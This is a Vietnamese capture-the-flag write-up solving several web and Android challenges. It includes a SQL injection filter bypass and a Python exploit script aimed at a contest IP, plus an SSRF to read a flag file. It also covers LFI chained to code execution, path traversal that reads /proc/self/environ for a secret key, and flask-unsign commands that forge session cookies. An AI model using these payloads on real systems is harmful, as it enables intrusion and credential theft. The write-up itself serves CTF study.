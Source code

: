 # SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu `\` để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass `"`, `'` vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```

![](2022-05-16-15-28-42.png)

Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`



# BABY DROID 

Bài cho một file apk, tải về sau đó mình sử dụng jadx để decompile file và đọc source code. 

Ở đây có hàm checkFlag(), R() ngồi phân tích bằng tay một lát mình có flag bài này. 

